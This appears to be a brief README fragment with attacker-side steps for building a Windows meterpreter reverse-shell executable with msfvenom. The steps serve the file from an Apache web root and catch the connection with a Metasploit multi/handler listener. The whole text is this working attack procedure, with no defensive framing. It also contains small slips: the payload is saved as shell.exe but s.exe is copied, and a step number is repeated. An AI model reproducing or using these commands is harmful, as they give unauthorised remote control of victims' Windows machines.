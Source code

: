 ## Instructions:
  ### On the host machine (linux): // Note: (change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp s.exe /var/www/html
   3.  service apache2 start
   3.  msfconsole
   4.  use exploit/multi/handler
   5.  set PAYLOAD windows/meterpreter/reverse_tcp
   6.  set LHOST 192.168.0.24
   7.  set LPORT 8080
   8.  exploit
  
